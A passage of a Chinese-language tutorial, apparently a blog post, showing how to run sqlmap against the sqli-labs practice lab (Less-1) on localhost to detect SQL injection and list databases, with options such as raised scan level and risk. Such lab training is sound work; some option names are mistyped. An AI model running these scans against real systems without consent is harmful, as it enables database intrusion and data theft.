
---


> 
<h2>扩展</h2>
<h3>命令扩展</h3>
（1）如果提前找到了数据库类型
--dbms +数据库
（2）扫描的等级
最高等级是
--leve=5 --risk=3
<hr/>
<h3>注：</h3>
我使用Windows中的sqlmap做，会带上python sqlmap.py
Linux：直接sqlmap +……
<hr/>
<h3>推荐：</h3>
[（手工）【sqli-labs靶场1-4】GET请求、错误注入、单引号、双引号、括号闭合、字符型、整型<img alt="icon-default.png?t=M4AD" src="https://csdnimg.cn/release/blog_editor_html/release2.1.3/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=M4AD"/>https://blog.csdn.net/qq_53079406/article/details/124964170?spm=1001.2014.3001.5501](https://blog.csdn.net/qq_53079406/article/details/124964170?spm=1001.2014.3001.5501)



### 注：

---


---


---


## 一、Less1（GET-Error based - Single quotes -String）

> 
<h3>1.1、第一步：检测是否存在注入</h3>
<h4>基础操作</h4>
python sqlmap.py -u 'http://localhost:8080/sqli-labs-master/Less-1/?id=1' --batch
--batch是使用默认设置



其实环境都扫出来了 
就可以再加上--dbms mysql了



> 
<h3>1.2、第二步：爆数据库名</h3>
<h4>命令</h4>
#获取全部数据库
sqlmap.py -u url --dbs --batch
---------
#获取当前数据库
sqlmap.py -u url --current-dbs --batch
<hr/>
<h4>基础操作</h4>
python sqlmap.py -u 'http://localhost:8080/sqli-labs-master/Less-1/?id=1' --dbs --batch
